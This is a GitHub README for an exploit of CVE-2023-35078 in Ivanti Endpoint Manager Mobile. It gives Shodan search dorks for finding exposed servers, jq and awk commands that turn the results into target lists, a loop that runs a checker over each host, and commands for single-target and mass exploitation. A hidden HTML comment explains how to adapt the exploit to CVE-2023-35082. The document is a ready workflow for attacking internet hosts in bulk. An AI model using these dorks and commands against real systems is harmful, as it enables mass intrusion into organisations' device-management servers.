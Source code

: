 # CVE-2023-35078
Ivanti Endpoint Manager Mobile exploit <br/>

- Shodan dorks: <br/>
```
http.favicon.hash:362091310
```
```
http.favicon.hash:545827989
```
```
path=/mifs
```
Download the shodan json file and extract all IP addresses from it. You can do this with [shodan-parser](https://github.com/getdrive/POC/blob/main/2023/Ivanti%20Endpoint%20Manager%20Mobile%20(EPMM)/shodan-parser.py) or any other tool.

- Transform shodan json to _data_file_ <br/>
```
jq -cr 'select(.http.favicon.hash == 362091310) | [ if .ssl? then "https://" else "http://" end , (.ip_str) + ":" + (.port|tostring)] | add' shodan.json > data_file
```
```
jq -cr 'select(.http.favicon.hash == 545827989) | [ if .ssl? then "https://" else "http://" end , (.ip_str) + ":" + (.port|tostring)] | add' shodan.json > data_file
```
```
python3 shodan-parser.py -o temp_data_file shodan.json
```
```
awk '{print "https://"$0}' temp_data_file > data_file
```
- How to run a check. <br/>

   The format of the data_file should be as follows: **_http://ip_addr:port_** or **_https://ip_addr:port_** <br/> 
```
chmod +x check.sh; while read line; do ./check.sh $line; done < data_file
```
- Setup requirements <br/>
```
pip install -r requirements.txt
```
- Run exploit single address . <br/>
```
python exploit.py -u http://
```
- Run mass exploit . <br/>
```
python exploit.py -f urls.txt
```
<!-- Here is an Easter Egg for inquiring minds ;-)
 CVE-2023-35082: Just change "aad" to "asfV3" and the exploit works.-->
